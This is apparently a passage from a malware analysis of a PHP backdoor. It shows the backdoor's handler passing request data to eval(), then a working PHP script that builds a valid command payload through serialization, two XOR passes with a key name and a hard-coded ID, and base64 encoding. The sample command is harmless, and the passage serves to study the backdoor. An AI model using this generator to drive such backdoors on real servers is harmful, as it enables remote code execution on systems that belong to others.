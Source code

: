 ```php
	    'sv' => '1.0-1',
	);
        echo @serialize($info);
    // if $payload['a'] == 'e', then evaluate code in $payload['d']
    } elseif ($payload['a'] == 'e'){
        eval($payload['d']);
    }
    exit();
}

```

So, to be able to generate a valid payload, something like this would
do:

```php
<?php
function  repXOR($text, $cipherKey){
	$xorStr = "";
	for ($x = 0; $x < strlen($text);){
		for ($i = 0; $i < strlen($cipherKey) && $x < strlen($text); $i++, $x++){
            $xorStr .= chr(ord($text[$x]) ^ ord($cipherKey[$i]));
        }
    }
    return $xorStr;
}

$payload = [
    // ID is required
    'ak' => 'd4a8745e-2599-49bc-b7e3-2b194ca49aef',
    // show info
//    'a' => 'i',
    // or execute code
    'a' => 'e',
    'd' => "echo \"Hi\";"
];
// set key name
$payloadKeyName = "payload";
// set ID
$payloadID = "d4a8745e-2599-49bc-b7e3-2b194ca49aef";

// 1. Serialize it
$payload = serialize($payload);
// 2. XOR with key name
$payload = repXOR($payload, $payloadKeyName);
// 3. XOR with ID
$payload = repXOR($payload, $payloadID);
// 4. base64 encode
$finishedPayload = base64_encode($payload);

```
